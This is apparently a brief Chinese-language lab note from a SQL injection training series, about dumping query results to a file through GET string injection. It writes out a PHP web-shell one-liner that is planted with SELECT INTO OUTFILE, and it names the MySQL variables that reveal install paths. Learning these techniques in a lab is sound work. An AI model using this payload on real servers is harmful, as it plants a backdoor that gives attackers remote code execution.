 # Lab 7 GET - Dump into outfile - String （导出文件GET字符型注入）

+ 概要：把查询结果导出到文件中，常用语句为 `select "<?php @eval($_POST['giantbranch']);?>" into outfile "XXX\test.php" `， 当然要获取网站在系统中的具体路径（绝对路径） -- 怎么获取？根据系统和数据库猜测（那就是经验咯）；当然不是啦，SQL中有提供函数which有很大可能让我们获取到这个路径，看吧，用lab3的环境 -- 

@@datadir -- 读取数据库的路径

@@basedir -- 安装MYSQL路径

![7_1](.\images\7_1.png)

+ ps：在这里关于导出sql查询结果到文件的时候需要注意设置sql里面的secure-file-priv属性，若报以下错误可以参考`坑.md`

